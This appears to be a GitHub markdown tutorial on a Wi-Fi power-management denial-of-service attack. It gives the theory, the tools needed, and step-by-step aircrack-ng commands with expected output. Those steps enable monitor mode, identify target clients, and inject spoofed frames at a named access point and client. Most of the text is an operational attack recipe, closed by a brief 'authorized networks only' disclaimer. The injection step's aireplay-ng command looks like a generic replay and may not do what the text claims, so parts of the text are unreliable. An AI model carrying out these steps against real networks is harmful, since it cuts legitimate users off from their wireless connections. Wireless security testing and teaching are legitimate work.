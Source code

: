 # Power Management Attack

## Theory
Power management in 802.11 networks allows client devices to conserve energy by entering a low-power state. The AP buffers packets for sleeping clients and notifies them via the Traffic Indication Map (TIM) in beacon frames.

An attacker can exploit this feature by:
1. Sending spoofed power management frames to force a client into sleep mode.
2. Tricking the AP into buffering packets indefinitely, causing a denial of service (DoS).

This attack disrupts legitimate communication between the client and the AP.

## Tools Required
- `aircrack-ng` suite
- `Wireshark` for packet analysis
- A wireless adapter capable of monitor mode and packet injection

## Steps to Perform Power Management Attack

### Step 1: Enable Monitor Mode
Enable monitor mode on your wireless interface.

```bash
sudo airmon-ng start wlan0
```

Expected output:
```
Interface   Chipset         Driver
wlan0       Atheros         ath9k - [phy0]
                (monitor mode enabled on wlan0mon)
```

### Step 2: Monitor Wireless Traffic
Identify active wireless clients and their associated APs.

```bash
sudo airodump-ng wlan0mon
```

Expected output:
```
 BSSID              PWR  Beacons  #Data, #/s  CH  MB   ENC  CIPHER  AUTH ESSID
 00:14:6C:7E:40:80  -50      100     50    0   6  54e  WPA2  CCMP    PSK  MyWiFi

 STATION            PWR   Rate   Lost  Frames  Probe
 00:25:9C:CF:1C:9E  -40   36e     0     200   MyWiFi
```

### Step 3: Inject Fake Power Management Frames
Send spoofed power management frames to disrupt communication.

```bash
sudo aireplay-ng --interactive -b [AP_MAC] -h [STA_MAC] wlan0mon
```

- `-b [AP_MAC]`: MAC address of the target AP.
- `-h [STA_MAC]`: MAC address of the target client.

Expected output:
```
Interactive packet replay started
```

### Notes
- Use this attack responsibly and only on authorized networks.
- Monitor the impact using `Wireshark` to analyze traffic patterns.
